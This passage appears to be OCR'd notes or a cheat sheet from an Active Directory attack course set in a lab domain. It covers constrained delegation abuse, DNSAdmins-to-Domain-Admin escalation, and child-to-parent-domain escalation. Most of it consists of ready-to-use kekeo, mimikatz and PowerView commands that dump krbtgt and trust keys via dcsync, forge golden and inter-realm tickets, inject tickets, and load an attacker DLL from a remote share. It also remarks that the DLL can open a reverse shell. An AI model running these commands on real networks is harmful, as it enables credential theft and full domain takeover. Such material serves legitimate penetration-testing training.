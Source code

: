     * To exploit: if we have access to such a service account (say websvc), we can then access any of the services listed in the *msDS-AllowedToDelegateTo* attribute as *ANY* user
    1. Enumerate users and computers with constrained delegation enabled, and the SPNs that can be delegated to
      * `Get-DomainUser -TrustedToAuth` <br/> `Get-DomainComputer -TrustedToAuth` (PowerView - dev)
      * `Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo` (AD Module)
    1. Request TGT using *kekeo*: `tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887ea6666666666666666` This stores ticket in a file.
    1. Request TGS using *kekeo*: `tgs::s4u /tgt:filename.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local`
    1. Inject TGS using *mimikatz*: `Invoke-Mimikatz -Command '"kerberos::ptt filename.kirbi"`
    1. Now we can access the share `\\dcorp-mssql.dollarcorp.moneycorp.local\c$` as if we were `dcorp\Administrator`
    * NB: Kerberos delegation occurs for any service running under the same service account, not just the specified service. No validation on specified SPN. This means we can get a TGS for any such service using *kekeo*, separating services with a `|`: `tgs::s4u /tgt:filename.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL` With LDAP access, we can run dcsync to access secrets on the DC without compromising the DA account itself: `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'` 

#### Privilege Escalation - DNS Admin to Domain Admin
* DNSAdmins group can load arbitrary DLL with privileges of dns.exe (SYSTEM)
* If the DC is the DNS server, this escalates us to DA
* Need privileges to restart DNS service
1. Enumerate DNSAdmins 
  * `Get-NetGroupMember -GroupName "DNSAdmins"` (PowerView)
  * `Get-ADGroupMember -Identity DNSAdmins` (AD Module)
2. Compromise a a member of DNSAdmins group
3. Configure DLL
  * `dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.100.12\dll\mimilib.dll`
  * `$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc Verbose -All` <br/>
  `$dnsettings.ServerLevelPluginDll = "\\172.16.100.12\dll\mimilib.dll"` <br/>
  `Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose`
4. Restart DNS servce `sc \\dcorp-dc stop dns`, `sc \\dcorp-dc start dns`. By default, mimilib.dll in this context will log all DNS queries to `C:\Windows\System32\kiwidns.log`. DLL can be replaced with one that opens a reverse shell, adds a user, etc.

#### Privilege Escalation - Domain Admin to Enterprise Admin
* Child Domain to Forest Root using Trust Tickets
   * Get trust key: `Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc` or `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'` (where mcorp represents the parent domain)
   * Forge inter-realm TGT: `Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<SID of current domain> /sids:<SID of EA group of parent domain> /rc4:<rc4 of trust key> /service:krbtgt /target:<fqdn of parent domain> /ticket:C:\path\trust_tkt.kirbi"' `
   * Get TGS for service in target domain using the forged trust ticket: `kekeo_old\asktgs.exe C:\path\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local ` (can also create for HOST, RPCSS, WMI,etc)
   * Use TGS to access targeted service `.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi` (*may need to run multiple times*) <br/> 
   then try to access service `ls \\mcorp-dc.moneycorp.local\c$`
* Child Domain to Parent Domain using krbtgt hash
   * Get trust key: `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
   * Forge inter-realm TGT: `Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<SID of current domain> /sids:<SID of EA group of parent domain> /krbtgt:<krbtgt hash> /ticket:C:\path\krbtgt_tkt.kirbi"' `
   * Use PTT to gain access to services `Invoke-Mimikatz -Command '"kerberos::ptt C:\path\krbtgt_tkt.kirbi"`, then eg `ls \\mcorp-dc.moneycorp.local\c$`
